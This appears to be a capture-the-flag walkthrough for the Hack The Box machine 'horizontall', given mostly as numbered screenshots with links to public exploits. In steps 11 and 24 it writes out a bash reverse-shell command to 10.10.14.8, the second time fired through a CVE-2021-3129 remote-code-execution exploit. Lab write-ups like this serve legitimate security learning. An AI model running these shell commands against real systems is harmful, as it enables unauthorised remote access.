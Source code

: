 1. Run Nmap to scan any open ports and services from the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e168f3ae-fdca-40c6-a64c-4a4cf64ed6c0)

2. Input the ip address in the browser and it directs to horizontall.htb. I add it to /etc/hosts/ so I can open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa4cf0d4-22af-4da5-8d5b-e704b4493a39)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/777e5607-7645-40ec-af91-af3bcfbdf6d0)

3. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e0940e2b-5f55-446b-9e1f-fd33608cff5e)

Content: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4200360b-ca33-4ddd-a525-af725b5feb74)

4. [tool](https://beautifier.io/)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b6547f97-6b75-4ed9-b248-5c5649ded97c)

5.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e140aac3-a94e-4c08-aedf-07b1878bbc6c)

Website: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aad03eb2-afb9-4da1-b1c1-38927f3db72c)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7705d94a-dcdc-435d-b000-f9e71f2edd48)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0c5c8b-05f8-418d-aa02-a5d0741415d0)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ef79f371-d2cb-460d-a1be-e0135cd36629)

9. [link](https://www.exploit-db.com/exploits/50239)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/51d2fddb-24f3-4f1d-9e60-4ecb33f0292c)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ffaba9bc-9330-4947-be15-c2d62cfc5b63)

11. [tool](https://www.revshells.com/)

Payload:<br>
bash -c 'bash -i >& /dev/tcp/10.10.14.8/777 0>&1'

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1abb246c-695f-4324-b53a-1fd335f7bc29)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6895636-9c7c-4ab3-97f0-fb5a8f163d04)

12.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ca080e46-3b76-45a0-96cd-91efe3cfd8af)

13.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d5dfe2a1-9c92-4927-bdad-1af36492b26a)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/26a94265-8664-4cd8-884d-0ff53dcf36bf)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfcfc9e0-cbb4-4374-b3d5-c56dc6bf222b)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/acbe2dc6-d6b2-47b1-88f7-3d1e8ed00b9e)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d1579a62-ac52-42bf-b413-1cb73d7e38d8)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a4c6572e-1d54-4033-a86b-d97ca820ff90)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bc26e6f9-bade-4006-918c-6010d8cb20d3)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/73406f49-fdfa-46c5-8681-140ea29aa6eb)

20.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d82a0488-eda1-4879-aec6-06346361cd78)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/701ea246-aff2-4af8-9734-b51b0a6458c1)

22. [link](https://www.exploit-db.com/exploits/49424)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfc8880f-6458-47c3-a890-d93e0c7157ce)

23. [payload](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py)

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 id`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4b9b581b-3984-499a-994c-5469a70d9f8c)

24.

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.8/777 0>&1"'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1e29bf63-4555-494b-8b94-24a7b2563819)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/386a20da-85df-4c58-910c-52a520343750)

25.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e4f06518-68ce-405f-ba5f-94b54c7c8b57)





